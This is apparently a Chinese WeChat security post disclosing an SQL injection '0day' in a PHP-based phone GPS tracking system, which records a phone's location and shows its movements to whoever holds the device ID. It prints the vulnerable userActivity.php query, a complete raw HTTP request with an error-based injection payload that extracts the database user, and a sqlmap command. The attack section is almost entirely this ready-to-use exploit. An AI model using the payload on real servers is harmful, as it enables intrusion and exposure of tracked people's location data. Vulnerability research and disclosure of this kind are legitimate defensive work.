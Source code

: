 #  某GPS定位系统存在前台SQL注入漏洞   
 阿乐你好   2025-05-15 01:06  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**手机端强制打开GPS，每3分钟（可调）获取一次所在经纬度，如果位置变化距离超过100米（可调），**  
  
**则提交给后台的PHP。然后后台把得到的数据保存到数据库，再通过前面的百度地图API绘制出轨迹和显示驻留时间。**  
  
**安卓端安装好后，设置开机自启并打开相应的权限，手机会弹出一个ID，**  
  
**拿着ID到后台地址监控页就可以随时查看手机的活动轨迹了。**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dnZSXYJVCXqcq3sHGQ1LUaJ9AdjvR7PXaS2P1iao8HOxnnHSS2qlMNs0wX5kZibIicrtXG60hG6Jn1A/640?wx_fmt=other&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
**位于 /userActivity.php 中通过 POST 传入 type 及 getUserLocation 参数，且未加过滤，直接带入SQL查询字句中，导致漏洞产生.**  
  
****  
```
if ($type == 'getUserLocation') {    $aid = $_POST['aid'];    $aid = preg_replace('/\|/', "','", $aid);    $rs = mysqli_query($conn, "SELECT * FROM `user_location` WHERE  `aid` IN ('$aid')  ORDER BY id DESC LIMIT 5");    $out = array();    while ($row = mysqli_fetch_object($rs)) {        $out[] = $row;    }}
```  
  
  
Payload:  
  
```
POST /userActivity.php HTTP/1.1Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, br, zstdAccept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7Cache-Control: max-age=0Connection: keep-aliveContent-Length: 227Content-Type: application/x-www-form-urlencodedCookie: Hm_lvt_d3b3b1b968a56124689d1366adeacf8f=1731328644; _ga=GA1.1.2095806093.1731475984; Hm_lvt_22fbf4ec0601742141df7f652a137a5c=1731635709; Hm_lvt_ddf174778b49d80ad4f7dc54a908a39f=1732349704; su_webp=1; wp-settings-1=libraryContent%3Dbrowse; wp-settings-time-1=1734361867Host: 127.0.0.1Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"sec-ch-ua-mobile: ?0sec-ch-ua-platform: "Windows"sec-fetch-user: ?1type=getUserLocation&aid=') OR (SELECT 1085 FROM(SELECT COUNT(*),CONCAT((SELECT (USER())),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND ('UGwc'='UGwc
```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dnZSXYJVCXqcq3sHGQ1LUaFJwXk8JR5JAIKBRqsVsmzc2f7ia0KVLujrDSbwqxibibibFiaQgicSREeOeg/640?wx_fmt=other&from=appmsg "")  
  
```
Python sqlmap.py -r a.txt
```  
  
  
********## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
  
**GPS源码关注公众号，发送 250425 获取!**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  

